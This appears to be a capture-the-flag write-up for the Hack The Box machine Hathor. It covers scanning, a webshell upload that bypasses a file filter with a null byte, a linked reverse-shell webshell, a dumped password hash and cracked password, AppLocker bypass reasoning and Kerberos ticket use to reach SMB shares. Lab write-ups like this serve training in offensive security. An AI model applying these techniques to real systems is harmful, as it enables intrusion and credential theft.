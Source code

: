 # Rustscan & Nmap
```bash
rustscan -a $IP 

sudo nmap -sC -sV -oA nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49668,49674,53876,65133,65142 $IP

xsltproc -o beauty-scan.html /opt/nmap-bootstrap-xsl/nmap-bootstrap.xsl nmap.xml

DNS:hathor.windcorp.htb
Domain: windcorp.htb0
```

* https://github.com/honze-net/nmap-bootstrap-xsl#build-an-html-file-for-sharing

# Shell as windcorp/web
### Webshell
80 -> Web title -> Google default creds -> File Transfer

Upload webshell -> bypassing by adding `%00.jpg` -> "Copy" the file inorder to rename to get the `.aspx` extenstion.

### Enum
* https://0xdf.gitlab.io/2022/11/19/htb-hathor.html#shell


### INSOMNIA Shell
Adding ` 2>&1` to the end of command in the webshell to get more infos. e.g. `powershell -c Get-AppLockerPolicy -effective -xml 2>&1`

Both PowerShell and unsigned binaries like `nc.exe` are going to fail connecting out either antivirus or request not support. Probably AppLocker.
I’ll try a more full-featured webshell, like Insomnia. It has a built in reverse shell capability:

* https://github.com/A1vinSmith/pentest/blob/master/shell/insomnia_shell.aspx

# Shell as Bill
### Enum
* https://github.com/A1vinSmith/Get-bADpasswords

```cmd powershell
c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-18032022-044046.csv
type exported_windcorp-18032022-044046.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)

c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-04102021-113140.csv
type exported_windcorp-04102021-113140.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7'

c:\Get-bADpasswords\Accessible\CSVs>whoami
whoami
windcorp\web

c:\Get-bADpasswords\Accessible\CSVs>powershell $ExecutionContext.SessionState.LanguageMode
powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage			<- CLM

c:\Get-bADpasswords\Accessible\CSVs>powershell get-applockerPolicy -effective -xml <- or without the -c
powershell get-applockerPolicy -effective -xml
<AppLockerPolicy Version="1"><RuleCollection Type="Appx" EnforcementMode="Enabled"><FilePublisherRule Id="a9e18c21-ff8f-43cf-b9fc-db40eed693ba" Name="(Default Rule) All signed packaged apps" Description="Allows members of the Everyone group to run packaged apps that are signed." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePublisherCondition PublisherName="*" ProductName="*" BinaryName="*"><BinaryVersionRange LowSection="0.0.0.0" HighSection="*" /></FilePublisherCondition></Conditions></FilePublisherRule></RuleCollection><RuleCollection Type="Dll" EnforcementMode="Enabled"><FilePublisherRule Id="5b74e91f-e7d9-4348-a21b-047d2901c659" Name="Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" Description="" UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePublisherCondition PublisherName="O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" ProductName="*" BinaryName="*"><BinaryVersionRange LowSection="*" HighSection="*" /></FilePublisherCondition></Conditions></FilePublisherRule><FilePathRule Id="059bf360-e712-427a-8255-59d182bc4cd5" Name="%OSDRIVE%\share\scripts\7-zip64.dll" Description="" UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll" /></Conditions><Exceptions><FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll:*" /></Exceptions></FilePathRule><FilePathRule Id="3737732c-99b7-41d4-9037-9cddfb0de0d0" Name="(Default Rule) All DLLs located in the Program Files folder" Description="Allows members of the Everyone group to load DLLs that are located in the Program Files folder." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%PROGRAMFILES%\*" /></Conditions></FilePathRule><FilePathRule Id="3a07aecc-17f3-43e5-911b-ddb7e4d7353f" Name="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" Description="" UserOrGroupSid="S-1-5-21-3783586571-2109290616-3725730865-10102" Action="Allow"><Conditions><FilePathCondition Path="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" />

Name="%OSDRIVE%\share\scripts\7-zip64.dll"
"%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll"
```

With AppLocker enabled the files that a user can execute get restricted by the AppLocker policy. Looking at
the policy, we can see that AppLocker trusts Microsoft as a publisher. So `Sysinternals` tools can be used
to find writable paths to bypass AppLocker rules. We can use the tool `Accesschk`.

First of all, we download it on our local machine and unzip the archive. Now, we need to find a way to
transfer the executable to the remote machine. Using common Powershell commands like `Copy-Item`,
`wget` or `iwr` yielded no results, most likely due to firewall rules . So, an easy bypass to this problem is to
utilize the File Manager option from the website once again after we change the extension of the file to
`.txt`

```bash
crackmapexec smb $IP -u beatricemill -p '!!!!ilovegood17'
SMB         10.129.47.158   445    10.129.47.158    [*]  x64 (name:10.129.47.158) (domain:10.129.47.158) (signing:True) (SMBv1:False)
SMB         10.129.47.158   445    10.129.47.158    [-] 10.129.47.158\beatricemill:!!!!ilovegood17 STATUS_NOT_SUPPORTE
```

It's not supported and have to go with the Kerberos ticket way.

### Kerberos on Linux (Linux Lateral Movement)
Linux clients can authenticate to Active Directory servers via Kerberos as a Windows machine would.

To use the `kinit` command, which is used to acquire a Kerberos ticket-granting ticket (TGT) for the current user. To request a TGT, we just need to call kinit without parameters and enter the user's AD password.

When users attempt to use Kerberos and specify a principal or user name without specifying what administrative Kerberos realm that principal belongs to, the system appends the default realm. The default realm may also be used as the realm of a Kerberos service running on the local machine. Often, the default realm is the uppercase version of the local DNS domain.

But since I left it empty, I need to config the `/etc/krb5.conf` with the victim domain now. Let's use the infos from rust and nmap. One thing that the default realm is case sensitive.

* https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/system-level_authentication_guide/configuring_a_kerberos_5_server
* https://docs.bmc.com/docs/decisionsupportserverautomation/85/locating-active-directory-kdcs-350325160.html
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns#active-directory-servers

```bash
nslookup -type=srv _kerberos._tcp.windcorp.htb
Server:         10.129.47.158
Address:        10.129.47.158#53

_kerberos._tcp.windcorp.htb     service = 0 100 88 hathor.windcorp.htb.

sudo kinit beatricemill
Password for beatricemill@WINDCORP.HTB: 

sudo klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: beatricemill@WINDCORP.HTB

Valid starting     Expires            Service principal
03/11/23 14:21:32  04/11/23 00:21:32  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 04/11/23 14:21:11

sudo smbclient -L //hathor.windcorp.htb -U beatricemill@windcorp.htb -N -k
WARNING: The option -k|--kerberos is deprecated!
session setup failed: NT_STATUS_CONNECTION_RESET

sudo smbclient -L //hathor.windcorp.htb -U beatricemill@windcorp.htb -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        share           Disk      
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

sudo klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: beatricemill@WINDCORP.HTB

Valid starting     Expires            Service principal
03/11/23 14:21:32  04/11/23 00:21:32  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 04/11/23 14:21:11
03/11/23 14:36:16  04/11/23 00:21:32  cifs/hathor.windcorp.htb@WINDCORP.HTB
        renew until 04/11/23 14:21:11
```

One thing need to be remind, TO turn it on&off the switch

```conf
# HTB box
# nameserver 10.129.47.158 	<- for using kinit to get a ticket
nameserver 10.10.16.2 		<- for running the smbclient	
```

##### Alternatively using Impacket
```bash
impacket-getTGT windcorp.htb/beatricemill:'!!!!ilovegood17'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in beatricemill.ccache
```

##### Looking in to the share
```bash
sudo smbclient //hathor.windcorp.htb/share -U beatricemill@windcorp.htb -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Nov  3 14:43:25 2023
  ..                                DHS        0  Wed Apr 20 00:45:15 2022
  AutoIt3_x64.exe                     A  1013928  Fri Mar 16 02:17:44 2018
  Bginfo64.exe                        A  4601208  Fri Sep 20 08:15:38 2019
  scripts                             D        0  Tue Mar 22 10:22:59 2022


smb: \scripts\> dir
  .                                   D        0  Tue Mar 22 10:22:59 2022
  ..                                  D        0  Fri Nov  3 14:53:25 2023
  7-zip64.dll                         A  1076736  Tue Mar 22 02:43:58 2022
  7Zip.au3                            A    54739  Fri Oct 19 09:02:02 2012
  ZipExample.zip                      A     2333  Sun Oct  7 10:50:30 2012
  _7ZipAdd_Example.au3                A     1794  Mon Oct  8 00:15:16 2012
  _7ZipAdd_Example_using_Callback.au3      A     1855  Mon Oct  8 00:17:14 2012
  _7ZipDelete_Example.au3             A      334  Sun Oct  7 14:37:38 2012
  _7ZIPExtractEx_Example.au3          A      859  Sun Oct  7 14:38:10 2012
  _7ZIPExtractEx_Example_using_Callback.au3      A     1867  Sun Oct  7 12:04:14 2012
  _7ZIPExtract_Example.au3            A      830  Sun Oct  7 14:37:50 2012
  _7ZipFindFirst__7ZipFindNext_Example.au3      A     2027  Sun Oct  7 12:05:12 2012
  _7ZIPUpdate_Example.au3             A      372  Sun Oct  7 14:39:04 2012
  _Archive_Size.au3                   A      886  Sun Jan 23 22:51:45 2022
  _CheckExample.au3                   A      201  Sun Oct  7 12:51:30 2012
  _GetZipListExample.au3              A      144  Sun Oct  7 14:39:22 2012
  _MiscExamples.au3                   A      498  Fri Nov 28 05:04:30 2008

                10328063 blocks of size 4096. 2270930 blocks available
```

Inside the share there are two executables and one directory called scripts. Judging from the names of
the files the `Bginfo64.exe` is the BgInfo tool from Sysinternals and the `AutoIt3_x64.exe` file turns out to
be the AutoIT scripting framework.

```xml
<FilePublisherRule Id="754a60b8-3945-4ea3-ba37-f9ae529297f3" Name="Signed by O=AUTOIT CONSULTING LTD, L=BIRMINGHAM, C=GB" Description="" UserOrGroupSid="S-1-1-0" Action="Allow">
<Conditions>
<FilePublisherCondition PublisherName="O=AUTOIT CONSULTING LTD, L=BIRMINGHAM, C=GB" ProductName="*" BinaryName="*">
<BinaryVersionRange LowSection="*" HighSection="*"/>
</FilePublisherCondition>
</Conditions>
</FilePublisherRule>
```

As we can see from the above `applocker.xml`, they're matched and allowed.
